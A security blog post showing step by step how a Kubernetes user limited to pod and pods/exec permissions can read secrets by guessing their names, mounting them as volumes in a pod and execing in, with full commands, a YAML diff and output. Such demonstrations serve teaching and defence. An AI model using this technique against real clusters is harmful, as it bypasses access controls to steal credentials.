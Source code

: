 ```yaml
---
author: "Suraj Deshmukh"
date: "2021-05-08T12:17:07+05:30"
title: "Access Any Kubernetes Secret"
description: "A little trickery and access any Kubernetes Secret!"
draft: false
categories: ["kubernetes", "security"]
tags: ["kubernetes", "security"]
images:
- src: "/post/2021/05/access-k8s-secrets/forbidden.jpg"
  alt: "Forbidden"
---
```


Photo by [Kyle Glenn]("https://unsplash.com/@kylejglenn") on [Unsplash]("https://unsplash.com").


You can gain access to any secret that you want in Kubernetes even if you don't have RBAC permissions to get, list or view that secret. All you need is permission that allows you to do anything on pods and an ability to guess the names of secrets. With these two ingredients, here is how you can access any secret out there.

## Nasty User

Here is a user called `nastyuser` who can only do stuff on pod objects. Everything else is forbidden.
The user cannot list secrets, namespaces or deployments:

```bash
$ kubectl get ns
Error from server (Forbidden): namespaces is forbidden: User "nastyuser" cannot list resource "namespaces" in API group "" at the cluster scope

$ kubectl get secrets
Error from server (Forbidden): secrets is forbidden: User "nastyuser" cannot list resource "secrets" in API group "" in the namespace "default"

$ kubectl get deploy
Error from server (Forbidden): deployments.apps is forbidden: User "nastyuser" cannot list resource "deployments" in API group "apps" in the namespace "default"
```

The user has access to `pods` and `pods/exec` and a bunch of other things that are required for a user to have functional access to the Kubernetes:

```bash
$ kubectl auth can-i --list
Resources                                       Non-Resource URLs   Resource Names   Verbs
pods/exec                                       []                  []               [*]
pods                                            []                  []               [*]
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/livez]            []               [get]
                                                [/livez]            []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
                                                [/readyz]           []               [get]
                                                [/readyz]           []               [get]
                                                [/version/]         []               [get]
                                                [/version/]         []               [get]
                                                [/version]          []               [get]
                                                [/version]          []               [get]
```

**NOTE:** You will need at least `pods/exec` or `pods/logs` to see the content of the secret using the generic bash tools. If you don't have this extra permission, you can create a script that reads contents and uploads the contents somewhere, which you can access from over the web. For the sake of simplicity, I chose `pods/exec` as extra permission.

**NOTE:** How you gain access to a kubeconfig that has the aforementioned authorisation is out of the scope of this blog. It is possible to gain access somehow to the host and fortuitously gain access to the service account token secret that has previously mentioned permissions.

## Do what you can!

Now how do you gain access to secrets with RBAC permissions only for pods? Your social skills and guesswork is going to help you find the name of the secrets. But even if you guess the name of the secret, you cannot access the secret the kubectl way since RBAC won't let you do that. So you will use the only permission you have on the Kubernetes cluster, which is creating pods.

> If you don't have access to the Kubernetes secret but know the name of the Kubernetes secret, you can simply
> 1) Create a pod.
> 2) Mount that secret into the pod.
> 3) Kubelet will happily give it to you regardless of your RBAC permissions to access the secret.

Let's see that in action. Start by creating a dummy pod config:

```yaml
$ kubectl run sleep --image=fedora --dry-run=client -o yaml -- sleep infinity > pod.yaml
$ cat pod.yaml
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: null
  labels:
    run: sleep
  name: sleep
spec:
  containers:
  - args:
    - sleep
    - infinity
    image: fedora
    name: sleep
    resources: {}
  dnsPolicy: ClusterFirst
  restartPolicy: Always
status: {}
```

Now add the following changes to the config. Here we are mounting a secret inside the pod at path `/access-secret`. Once the pod is up and running, we will find the mounted secret in this directory. We will replace the `secretName` field value from `GUESSED_SECRET` with something else as we keep on guessing.

```diff
diff --git pod.yaml pod.yaml
index 479a53d..2376fe3 100644
--- pod.yaml
+++ pod.yaml
@@ -13,6 +13,13 @@ spec:
     image: fedora
     name: sleep
     resources: {}
+    volumeMounts:
+    - name: hackedsecret
+      mountPath: /access-secret/
   dnsPolicy: ClusterFirst
   restartPolicy: Always
+  volumes:
+  - name: hackedsecret
+    secret:
+      secretName: GUESSED_SECRET
 status: {}
```

## Attempt 1st

Use `sed` to replace the string `GUESSED_SECRET` and create the pod out of it:

```bash
$ sed 's|GUESSED_SECRET|admin|g' pod.yaml | kubectl create -f -
pod/sleep created
```

Now check the pod:

```bash
$ kubectl get pods
NAME    READY   STATUS              RESTARTS   AGE
sleep   0/1     ContainerCreating   0          96s
```

The pod is in `ContainerCreating` state for more than a minute that means the secret does not exist, and Kubelet is failing to mount it in the pod. Describing the pod won't tell us anything because we don't have access to the events.

```bash
$ kubectl describe pod sleep | tail -3
Tolerations:     node.kubernetes.io/not-ready:NoExecute op=Exists for 300s
                 node.kubernetes.io/unreachable:NoExecute op=Exists for 300s
Events:          <none>
```

Cleanup by running the following command:

```bash
$ kubectl delete pod sleep
pod "sleep" deleted
```

## Attempt nth

Let's try a different secret name:

```bash
$ sed 's|GUESSED_SECRET|supersecret|g' pod.yaml | kubectl create -f -
pod/sleep created
```

Let's check the pod status:

```bash
$ kubectl get pods
NAME    READY   STATUS    RESTARTS   AGE
sleep   1/1     Running   0          32s
```

Yay, that means we guessed the secret name correctly. Let's gain access to the pod's terminal to find out the contents of the secrets:

```bash
$ kubectl exec -it sleep bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
[root@sleep /]#
```

Now go to the place where the secret is mounted and discover what is in secret.

```bash
[root@sleep ~]# cd /access-secret/
[root@sleep access-secret]# cat data
supersecretvaluesinhere
```

## Conclusion

This post was from the perspective of an attacker. It showed you how you could use guessing the secret name to gain access to any secret you like, of course, with the help of Kubelet.

In the next blog, we will see how to detect this issue and stop it from happening.

## Background Setup

I used the following commands to create a user and assign permissions to that user:

```bash
kubectl create role pod-all --verb=* --resource=pods --resource=pods/exec
kubectl create rolebinding pod-all:nastyuser --role=pod-all --user=nastyuser
kubectl create secret generic supersecret --from-literal data=supersecretvaluesinhere
alias kubectl='kubectl --as=nastyuser'
```
